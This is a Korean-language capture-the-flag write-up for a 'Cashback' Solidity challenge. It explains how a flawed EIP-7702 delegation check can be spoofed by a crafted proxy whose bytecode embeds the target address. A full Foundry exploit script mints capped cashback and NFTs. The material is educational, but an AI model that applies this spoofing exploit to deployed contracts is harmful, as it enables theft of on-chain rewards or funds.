

## 문제
### 지문
You’ve just joined Cashback, the hottest crypto neobank in town. <br>Their pitch is irresistible: for every on-chain payment you make, you <br>earn points. Rack up enough and you’ll reach legendary status, unlocking<br> the coveted Super Cashback NFT badge.
The system leverages EIP-7702 to allow EOAs to accrue cashback. Users must delegate to the Cashback contract to use the `payWithCashback` function.
Rumor has it there’s a back door for power users. Your brief is <br>simple: become the loyalty program’s nightmare. Max out your cashback in<br> every supported currency and walk away with at least two Super Cashback<br> NFT, one of which must correspond to your player address.
### 코드
```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.30;

import {IERC20} from "openzeppelin-contracts-v5.4.0/token/ERC20/IERC20.sol";
import {IERC721} from "openzeppelin-contracts-v5.4.0/token/ERC721/IERC721.sol";
import {ERC1155} from "openzeppelin-contracts-v5.4.0/token/ERC1155/ERC1155.sol";
import {TransientSlot} from "openzeppelin-contracts-v5.4.0/utils/TransientSlot.sol";

/*//////////////////////////////////////////////////////////////
                        CURRENCY LIBRARY
//////////////////////////////////////////////////////////////*/

type Currency is address;

using {equals as ==} for Currency global;
using CurrencyLibrary for Currency global;

function equals(Currency currency, Currency other) pure returns (bool) {
    return Currency.unwrap(currency) == Currency.unwrap(other);
}

library CurrencyLibrary {
    error NativeTransferFailed();
    error ERC20IsNotAContract();
    error ERC20TransferFailed();

    Currency public constant NATIVE_CURRENCY = Currency.wrap(0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE);

    function isNative(Currency currency) internal pure returns (bool) {
        return Currency.unwrap(currency) == Currency.unwrap(NATIVE_CURRENCY);
    }

    function transfer(Currency currency, address to, uint256 amount) internal {
        if (currency.isNative()) {
            (bool success,) = to.call{value: amount}("");
            require(success, NativeTransferFailed());
        } else {
            (bool success, bytes memory data) = Currency.unwrap(currency).call(abi.encodeCall(IERC20.transfer, (to, amount)));
            require(Currency.unwrap(currency).code.length != 0, ERC20IsNotAContract());
            require(success, ERC20TransferFailed());
            require(data.length == 0 || true == abi.decode(data, (bool)), ERC20TransferFailed());
        }
    }

    function toId(Currency currency) internal pure returns (uint256) {
        return uint160(Currency.unwrap(currency));
    }
}

/*//////////////////////////////////////////////////////////////
                       CASHBACK CONTRACT
//////////////////////////////////////////////////////////////*/

/// @dev keccak256(abi.encode(uint256(keccak256("Cashback")) - 1)) & ~bytes32(uint256(0xff))
contract Cashback is ERC1155 layout at 0x442a95e7a6e84627e9cbb594ad6d8331d52abc7e6b6ca88ab292e4649ce5ba00 {
    using TransientSlot for *;

    error CashbackNotCashback();
    error CashbackIsCashback();
    error CashbackNotAllowedInCashback();
    error CashbackOnlyAllowedInCashback();
    error CashbackNotDelegatedToCashback();
    error CashbackNotEOA();
    error CashbackNotUnlocked();
    error CashbackSuperCashbackNFTMintFailed();

    bytes32 internal constant UNLOCKED_TRANSIENT = keccak256("cashback.storage.Unlocked");
    uint256 internal constant BASIS_POINTS = 10000;
    uint256 internal constant SUPERCASHBACK_NONCE = 10000;
    Cashback internal immutable CASHBACK_ACCOUNT = this;
    address public immutable superCashbackNFT;

    uint256 public nonce;
    mapping(Currency => uint256 Rate) public cashbackRates;
    mapping(Currency => uint256 MaxCashback) public maxCashback;

    modifier onlyCashback() {
        require(msg.sender == address(CASHBACK_ACCOUNT), CashbackNotCashback());
        _;
    }

    modifier onlyNotCashback() {
        require(msg.sender != address(CASHBACK_ACCOUNT), CashbackIsCashback());
        _;
    }

    modifier notOnCashback() {
        require(address(this) != address(CASHBACK_ACCOUNT), CashbackNotAllowedInCashback());
        _;
    }

    modifier onlyOnCashback() {
        require(address(this) == address(CASHBACK_ACCOUNT), CashbackOnlyAllowedInCashback());
        _;
    }

    modifier onlyDelegatedToCashback() {
        bytes memory code = msg.sender.code;

        address payable delegate;
        assembly {
            delegate := mload(add(code, 0x17))
        }
        require(Cashback(delegate) == CASHBACK_ACCOUNT, CashbackNotDelegatedToCashback());
        _;
    }

    modifier onlyEOA() {
        require(msg.sender == tx.origin, CashbackNotEOA());
        _;
    }

    modifier unlock() {
        UNLOCKED_TRANSIENT.asBoolean().tstore(true);
        _;
        UNLOCKED_TRANSIENT.asBoolean().tstore(false);
    }

    modifier onlyUnlocked() {
        require(Cashback(payable(msg.sender)).isUnlocked(), CashbackNotUnlocked());
        _;
    }

    receive() external payable onlyNotCashback {}

    constructor(
        address[] memory cashbackCurrencies,
        uint256[] memory currenciesCashbackRates,
        uint256[] memory currenciesMaxCashback,
        address _superCashbackNFT
    ) ERC1155("") {
        uint256 len = cashbackCurrencies.length;
        for (uint256 i = 0; i < len; i++) {
            cashbackRates[Currency.wrap(cashbackCurrencies[i])] = currenciesCashbackRates[i];
            maxCashback[Currency.wrap(cashbackCurrencies[i])] = currenciesMaxCashback[i];
        }

        superCashbackNFT = _superCashbackNFT;
    }

    // Implementation Functions
    function accrueCashback(Currency currency, uint256 amount) external onlyDelegatedToCashback onlyUnlocked onlyOnCashback{
        uint256 newNonce = Cashback(payable(msg.sender)).consumeNonce();
        uint256 cashback = (amount * cashbackRates[currency]) / BASIS_POINTS;

        if (cashback != 0) {
            uint256 _maxCashback = maxCashback[currency];
            if (balanceOf(msg.sender, currency.toId()) + cashback > _maxCashback) {
                cashback = _maxCashback - balanceOf(msg.sender, currency.toId());
            }

            uint256[] memory ids = new uint256[](1);
            ids[0] = currency.toId();
            uint256[] memory values = new uint256[](1);
            values[0] = cashback;
            _update(address(0), msg.sender, ids, values);
        }
        if (SUPERCASHBACK_NONCE == newNonce) {
            (bool success,) = superCashbackNFT.call(abi.encodeWithSignature("mint(address)", msg.sender));
            require(success, CashbackSuperCashbackNFTMintFailed());
        }
    }

    // Smart Account Functions
    function payWithCashback(Currency currency, address receiver, uint256 amount) external unlock onlyEOA notOnCashback {
        currency.transfer(receiver, amount);
        CASHBACK_ACCOUNT.accrueCashback(currency, amount);
    }

    function consumeNonce() external onlyCashback notOnCashback returns (uint256) {
        return ++nonce;
    }

    function isUnlocked() public view returns (bool) {
        return UNLOCKED_TRANSIENT.asBoolean().tload();
    }
}
```
## 배경지식

---

EIP-7702는 EOA가 일시적으로 특정 컨트랙트 구현체에 delegate된 것처럼 동작하게 하는 방식이다. delegate된 EOA의 code는 일반적으로 다음 형태가 된다.
```plain text
0xef0100 || implementation_address
```
즉 길이는 23바이트이고, 앞의 3바이트는 designator, 뒤의 20바이트는 실행을 위임할 구현체 주소다.
이 문제의 의도는 player EOA를 `Cashback`에 delegate한 뒤 `payWithCashback`를 호출하는 것이다. 그러면 함수 실행은 `Cashback` 코드로 처리되지만 storage context는 player EOA 쪽이 된다.

---

cashback 포인트는 ERC1155로 관리된다. `Currency.toId()`가 `uint160(currency)`를 반환하므로 currency 주소가 곧 ERC1155 token id가 된다.
Super Cashback NFT는 ERC721이다. factory의 검증 조건을 보면 player가 최소 2개의 NFT를 가지고 있어야 하고, 그중 하나는 token id가 `uint160(player)`인 NFT여야 한다.
```solidity
ERC721(Cashback(_instance).superCashbackNFT()).ownerOf(uint256(uint160(_player))) == _player
    && ERC721(Cashback(_instance).superCashbackNFT()).balanceOf(_player) >= 2
```
따라서 단순히 아무 주소로 NFT를 두 개 mint하는 것으로는 부족하다. player 주소에 해당하는 token id의 NFT가 반드시 player에게 있어야 한다.

---

`payWithCashback`는 `unlock` modifier에서 transient storage를 켠 뒤 `accrueCashback`를 호출한다.
```solidity
modifier unlock() {
    UNLOCKED_TRANSIENT.asBoolean().tstore(true);
    _;
    UNLOCKED_TRANSIENT.asBoolean().tstore(false);
}
```
transient storage는 트랜잭션 동안만 유지되는 임시 storage다. 이 문제에서는 `onlyUnlocked`를 통과하기 위한 플래그로 쓰인다.
## 문제 코드 분석

---

문제 본문에는 `Cashback` 코드만 있지만, factory의 `validateInstance` 조건도 봐야 한다.
```solidity
return Cashback(_instance).balanceOf(_player, Currency.wrap(NATIVE_CURRENCY).toId()) == NATIVE_MAX_CASHBACK
    && Cashback(_instance).balanceOf(_player, Currency.wrap(address(FREE)).toId()) == FREE_MAX_CASHBACK
    && ERC721(Cashback(_instance).superCashbackNFT()).ownerOf(uint256(uint160(_player))) == _player
    && ERC721(Cashback(_instance).superCashbackNFT()).balanceOf(_player) >= 2 && _player.code.length == 23
    && bytes23(_player.code) == expectedCode;
```
player는 native currency cashback을 `1 ether`, `FREE` cashback을 `500 ether`까지 채워야 한다. 또 Super Cashback NFT를 최소 2개 가져야 하며, 최종적으로 player EOA의 code는 `0xef0100 || instance`여야 한다.
지원 currency는 두 개다.
```solidity
cashbackCurrencies[0] = NATIVE_CURRENCY;
cashbackCurrencies[1] = address(FREE);
```

---

`accrueCashback`에는 `onlyDelegatedToCashback`가 걸려 있다.
```solidity
modifier onlyDelegatedToCashback() {
    bytes memory code = msg.sender.code;

    address payable delegate;
    assembly {
        delegate := mload(add(code, 0x17))
    }
    require(Cashback(delegate) == CASHBACK_ACCOUNT, CashbackNotDelegatedToCashback());
    _;
}
```
이 검사는 EIP-7702 designator 전체를 확인하지 않는다. `msg.sender.code`에서 특정 위치를 읽어 delegate 주소가 `Cashback`인지 확인할 뿐이다.
`msg.sender`가 진짜 EIP-7702 EOA일 필요는 없다. `msg.sender.code[3:23]` 위치에 `Cashback` 주소가 들어가 있고, 나머지는 원하는 로직을 수행하는 proxy 컨트랙트여도 이 검사를 통과할 수 있다.

---

`accrueCashback`는 다음 순서로 `msg.sender`에게 다시 호출한다.
```solidity
uint256 newNonce = Cashback(payable(msg.sender)).consumeNonce();
uint256 cashback = (amount * cashbackRates[currency]) / BASIS_POINTS;
```
그리고 `onlyUnlocked`도 `msg.sender`의 `isUnlocked()`를 확인한다.
```solidity
modifier onlyUnlocked() {
    require(Cashback(payable(msg.sender)).isUnlocked(), CashbackNotUnlocked());
    _;
}
```
즉 `msg.sender`가 우리가 만든 proxy라면 `isUnlocked()`와 `consumeNonce()`를 마음대로 응답할 수 있다. `isUnlocked()`는 항상 `true`, `consumeNonce()`는 한 번 `10000`을 반환하게 만들면 `accrueCashback`를 직접 호출하면서 Super Cashback NFT도 mint할 수 있다.

---

cashback 계산은 다음과 같다.
```solidity
uint256 cashback = (amount * cashbackRates[currency]) / BASIS_POINTS;
```
factory 기준 rate와 max는 다음 값이다.
```solidity
uint256 constant NATIVE_CASHBACK_RATE = 50; // 0.5%
uint256 constant FREE_CASHBACK_RATE = 200; // 2%
uint256 constant NATIVE_MAX_CASHBACK = 1 ether;
uint256 constant FREE_MAX_CASHBACK = 500 ether;
```
상한까지 mint하고 싶으면 필요한 결제 금액은 대략 다음과 같다.
$$
amount = \left\lceil \frac{targetCashback \times 10000}{rate} \right\rceil
$$
실제 결제가 일어나는 `payWithCashback`를 쓰는 것이 아니라 `accrueCashback`를 직접 호출하므로, 이 금액만 인자로 넘기면 된다.

---

proxy로 ERC1155 cashback과 첫 번째 NFT를 얻는 것만으로는 부족하다. factory는 마지막에 player code가 정확히 `0xef0100 || instance`인지 확인한다.
```solidity
bytes23 expectedCode = bytes23(bytes.concat(hex"ef0100", abi.encodePacked(_instance)));
_player.code.length == 23 && bytes23(_player.code) == expectedCode
```
exploit 마지막에는 player EOA를 진짜 `Cashback` instance에 EIP-7702 delegate해야 한다.
또 player 주소 token id의 NFT를 만들려면 player context에서 `consumeNonce()`가 `10000`이 되도록 해야 한다. `Cashback`의 storage layout은 ERC-7201 custom layout을 쓰고, `nonce`는 base slot에서 offset 3에 있다.
```solidity
contract Cashback is ERC1155 layout at 0x442a95e7a6e84627e9cbb594ad6d8331d52abc7e6b6ca88ab292e4649ce5ba00 {
    uint256 public nonce;
```
그래서 잠깐 player를 `CashbackNonceSetter`에 delegate해서 `nonce = 9999`를 써두고, 다시 `Cashback`에 delegate한 뒤 `payWithCashback(..., 0)`을 호출한다. 그러면 `consumeNonce()`가 `10000`을 반환하고, player token id의 NFT가 mint된다.
## 풀이
먼저 `CashbackImpostor` proxy를 만든다. runtime 앞부분은 `PUSH22(0x0000 || cashback); POP` 형태로 둔다.
```solidity
hex"750000", cashback, hex"50..."
```
이렇게 하면 `code[3:23]`에 `cashback` 주소가 들어가 `onlyDelegatedToCashback`의 `mload(add(code, 0x17))` 검사를 통과한다. 동시에 주소 바이트는 `PUSH22`의 immediate data라서 EVM 실행 흐름을 망가뜨리지 않는다.
proxy는 나머지 calldata를 `CashbackImpostorLogic`으로 `delegatecall`한다. logic은 `isUnlocked()`를 항상 `true`로 응답하고, 첫 `consumeNonce()`에서 `10000`을 반환한다. 그러면 proxy 주소로 cashback ERC1155가 mint되고, proxy 주소 token id의 Super Cashback NFT도 하나 mint된다.
그 다음 proxy가 가진 ERC1155 cashback을 player에게 넘기고, proxy token id의 NFT도 player에게 넘긴다. 마지막으로 player EOA의 delegation을 조작한다. 먼저 `CashbackNonceSetter`에 delegate해서 player storage의 `nonce`를 `9999`로 세팅하고, 이후 `Cashback`에 delegate해서 `payWithCashback(NATIVE, player, 0)`을 호출한다. 이 호출에서 player token id의 Super Cashback NFT가 mint되고, player code도 최종 검증 조건인 `0xef0100 || instance`가 된다.
중간에 player가 이전 instance에 delegate되어 있을 수 있다. 그러면 ERC1155 `safeTransferFrom`이 player를 컨트랙트로 보고 `onERC1155Received`를 호출하다가 revert된다. 그래서 exploit 시작 시 player delegation을 `address(0)`으로 한 번 clear한다.
### 익스플로잇
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

import "forge-std/Script.sol";

type Currency is address;

interface ICashback {
    function accrueCashback(Currency currency, uint256 amount) external;
    function balanceOf(address account, uint256 id) external view returns (uint256);
    function cashbackRates(Currency currency) external view returns (uint256);
    function maxCashback(Currency currency) external view returns (uint256);
    function payWithCashback(Currency currency, address receiver, uint256 amount) external;
    function safeTransferFrom(address from, address to, uint256 id, uint256 value, bytes calldata data) external;
    function superCashbackNFT() external view returns (address);
}

interface ICashbackFactory {
    function FREE() external view returns (address);
}

interface IERC721Like {
    function balanceOf(address account) external view returns (uint256);
    function ownerOf(uint256 tokenId) external view returns (address);
    function transferFrom(address from, address to, uint256 tokenId) external;
}

interface ICashbackImpostor {
    function attack(address cashback, address beneficiary, address[] calldata currencies) external;
    function transferERC721(address nft, address to, uint256 tokenId) external;
}

interface ICashbackNonceSetter {
    function setCashbackNonce(uint256 value) external;
}

contract CashbackImpostorLogic {
    uint256 private constant BASIS_POINTS = 10000;
    Currency private constant NATIVE_CURRENCY = Currency.wrap(0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE);
    bool private superCashbackMinted;

    function attack(address cashback_, address beneficiary, address[] calldata currencies) external {
        ICashback cashback = ICashback(cashback_);
        uint256 nftMints;

        for (uint256 i = 0; i < currencies.length; i++) {
            Currency currency = Currency.wrap(currencies[i]);
            uint256 id = uint160(currencies[i]);
            uint256 maxAmount = cashback.maxCashback(currency);
            uint256 beneficiaryBalance = cashback.balanceOf(beneficiary, id);

            if (beneficiaryBalance >= maxAmount) {
                continue;
            }

            uint256 rate = cashback.cashbackRates(currency);
            require(rate != 0, "unsupported currency");

            uint256 remaining = maxAmount - beneficiaryBalance;
            uint256 paymentAmount = _cashbackToPaymentAmount(remaining, rate);

            cashback.accrueCashback(currency, paymentAmount);
            cashback.safeTransferFrom(address(this), beneficiary, id, remaining, "");
            nftMints++;
        }

        while (nftMints < 2) {
            cashback.accrueCashback(NATIVE_CURRENCY, 0);
            nftMints++;
        }
    }

    function transferERC721(address nft, address to, uint256 tokenId) external {
        IERC721Like(nft).transferFrom(address(this), to, tokenId);
    }

    function isUnlocked() external pure returns (bool) {
        return true;
    }

    function consumeNonce() external returns (uint256) {
        if (!superCashbackMinted) {
            superCashbackMinted = true;
            return 10000;
        }

        return 1;
    }

    function _cashbackToPaymentAmount(uint256 cashbackAmount, uint256 rate) private pure returns (uint256) {
        uint256 quotient = cashbackAmount / rate;
        uint256 remainder = cashbackAmount % rate;
        uint256 amount = quotient * BASIS_POINTS;

        if (remainder != 0) {
            amount += ((remainder * BASIS_POINTS) + rate - 1) / rate;
        }

        return amount;
    }
}

contract CashbackImpostor {
    constructor(address cashback, address implementation) payable {
        bytes memory runtime = abi.encodePacked(
            hex"750000", cashback, hex"50363d3d373d3d3d363d73", implementation, hex"5af43d82803e903d91604357fd5bf3"
        );

        assembly {
            return(add(runtime, 0x20), mload(runtime))
        }
    }
}

contract CashbackNonceSetter {
    bytes32 private constant CASHBACK_STORAGE = 0x442a95e7a6e84627e9cbb594ad6d8331d52abc7e6b6ca88ab292e4649ce5ba00;

    function setCashbackNonce(uint256 value) external {
        bytes32 slot = bytes32(uint256(CASHBACK_STORAGE) + 3);

        assembly {
            sstore(slot, value)
        }
    }
}

contract Sol36 is Script {
    address private constant CASHBACK_FACTORY = 0xaCC5D8b0dc23b3e8b1651900e5064ce7CB851E89;
    Currency private constant NATIVE_CURRENCY = Currency.wrap(0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE);
    uint256 private constant SUPERCASHBACK_NONCE_PREIMAGE = 9999;

    function run() external {
        uint256 privateKey = vm.envUint("PRIVATE_KEY");
        address player = vm.addr(privateKey);
        ICashback cashback = ICashback(vm.envAddress("CASHBACK_INSTANCE"));
        address free = ICashbackFactory(CASHBACK_FACTORY).FREE();
        address superCashbackNFT = cashback.superCashbackNFT();
        address[] memory currencies = new address[](2);
        currencies[0] = Currency.unwrap(NATIVE_CURRENCY);
        currencies[1] = free;

        vm.startBroadcast(privateKey);

        CashbackImpostorLogic logic = new CashbackImpostorLogic();
        address impostor = address(new CashbackImpostor(address(cashback), address(logic)));

        vm.signAndAttachDelegation(address(0), privateKey);
        (bool cleared,) = player.call("");
        require(cleared, "clear delegation failed");

        ICashbackImpostor(impostor).attack(address(cashback), player, currencies);

        uint256 impostorTokenId = uint256(uint160(impostor));
        ICashbackImpostor(impostor).transferERC721(superCashbackNFT, player, impostorTokenId);

        CashbackNonceSetter nonceSetter = new CashbackNonceSetter();
        vm.signAndAttachDelegation(address(nonceSetter), privateKey);
        ICashbackNonceSetter(player).setCashbackNonce(SUPERCASHBACK_NONCE_PREIMAGE);

        vm.signAndAttachDelegation(address(cashback), privateKey);
        ICashback(player).payWithCashback(NATIVE_CURRENCY, player, 0);

        uint256 playerTokenId = uint256(uint160(player));
        require(IERC721Like(superCashbackNFT).ownerOf(playerTokenId) == player, "player token NFT missing");
        require(IERC721Like(superCashbackNFT).balanceOf(player) >= 2, "player needs two NFTs");
        require(
            player.code.length == 23
                && bytes23(player.code) == bytes23(abi.encodePacked(hex"ef0100", address(cashback))),
            "player is not delegated"
        );

        _verifyCashbackBalances(cashback, player, currencies);

        vm.stopBroadcast();
    }

    function _verifyCashbackBalances(ICashback cashback, address player, address[] memory currencies) private view {
        for (uint256 i = 0; i < currencies.length; i++) {
            Currency currency = Currency.wrap(currencies[i]);
            uint256 id = uint160(currencies[i]);
            require(cashback.balanceOf(player, id) == cashback.maxCashback(currency), "cashback is not maxed");
        }
    }
}
```

